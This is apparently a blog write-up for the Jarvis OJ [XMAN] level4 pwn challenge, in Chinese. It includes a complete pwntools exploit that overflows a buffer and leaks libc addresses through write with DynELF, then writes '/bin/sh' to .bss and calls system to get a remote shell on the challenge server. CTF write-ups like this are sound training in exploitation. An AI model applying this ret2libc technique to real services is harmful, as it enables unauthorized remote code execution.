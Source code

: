 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level4
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level4.0f9cfa0b7bb6c0f9e030a5541b46e9f0  
>  
>Address:  
>nc pwn2.jarvisoj.com 9880  
<!-- more -->


### 0x00 可执行文件特征

```
file level4
checksec level4
chmod a+x ./level4
./level4
```

![](/assets/img/writeup/pwn/2017-06-22-jarvisoj-level4/0x00.png)


### 0x01 放到IDA分析

没有system调用，没有libc，接下来用write来泄漏信息，通过DynELF找到system地址

![](/assets/img/writeup/pwn/2017-06-22-jarvisoj-level4/0x01.png)

查看缓冲区

![](/assets/img/writeup/pwn/2017-06-22-jarvisoj-level4/0x02.png)


![](/assets/img/writeup/pwn/2017-06-22-jarvisoj-level4/0x03.png)


### 0x02 最终的exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

elf = ELF('./level4')
write_plt_addr = elf.plt['write']
read_plt_addr = elf.plt['read']
bss_base = elf.bss()
main_addr = elf.symbols['main']
junk = 'A' * (0x88 + 0x04)

Io = remote("pwn2.jarvisoj.com", 9880)

def leak(addr):
	payload = junk + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
	Io.send(payload)
	leaked = Io.recv(4)
	print '[%s] -> [%s] = [%s]' % (hex(addr), hex(u32(leaked)), repr(leaked))
	return leaked

d = DynELF(leak, elf = ELF('./level4'))  # 调用DynELF泄漏地址信息
system_addr = d.lookup('system', 'libc')  # 查找system的地址
print '[system()] -> [%s]' % (hex(system_addr))

payload = junk + p32(read_plt_addr) + p32(main_addr) + p32(0) + p32(bss_base) + p32(8)
Io.send(payload)

Io.send('/bin/sh\x00')  # 将字符串"/bin/sh\0"写入bss

payload = junk + p32(system_addr) + p32(0) + p32(bss_base)  # 调用system("/bin/sh")
Io.send(payload)

Io.interactive()
```

得到falg

![](/assets/img/writeup/pwn/2017-06-22-jarvisoj-level4/0x04.png)